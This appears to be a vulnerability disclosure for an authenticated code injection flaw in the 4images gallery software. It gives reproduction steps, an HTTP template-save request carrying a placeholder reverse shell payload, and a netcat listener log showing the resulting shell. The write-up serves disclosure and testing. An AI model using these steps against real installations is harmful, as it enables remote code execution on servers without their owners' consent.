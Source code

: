 
### Code Injection


To reproduce do the following:

1. Login as administrator user
2. Browse to "General" -> " Edit Templates" -> "Select Template Pack" -> "default_960px" -> "Load Theme"
3. Select Template ```"categories.html"```
4. Paste reverse shell code
5. Click "Save Changes"
6. Browse to ```"http://host/4images/categories.php?cat_id=1"```

```
// HTTP POST request showing reverse shell payload

POST /4images/admin/templates.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
[...]

__csrf=c39b7dea0ff15442681362d2a583c7a9&action=savetemplate&content=[REVERSE_SHELL_CODE]&template_file_name=categories.html&template_folder=default_960px[...]
```

```
// HTTP redirect response to specific template

GET /4images/categories.php?cat_id=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
[...]
```

```
// HTTP request showing reverse shell connection

# nc -kvlp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 43032
Linux kali 6.0.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.0.7-1kali1 (2022-11-07) x86_64 GNU/Linux
 13:54:28 up  2:18,  2 users,  load average: 0.09, 0.68, 0.56
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
kali     tty7     :0               11:58    2:18m  2:21   0.48s xfce4-session
kali     pts/1    -                11:58    1:40  24.60s  0.14s sudo su
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
```








